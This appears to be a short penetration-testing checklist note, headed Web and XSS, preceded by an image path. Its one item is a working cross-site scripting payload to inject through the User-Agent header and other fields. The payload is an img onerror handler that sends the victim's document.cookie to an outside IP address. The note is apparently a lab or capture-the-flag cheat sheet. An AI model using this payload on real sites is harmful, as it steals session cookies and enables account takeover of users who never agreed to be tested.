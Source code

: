 # Web

## XSS
- [ ] User-Agent (other fields as well): `<img src=x onerror=fetch('http://10.10.16.19/'+document.cookie);>`
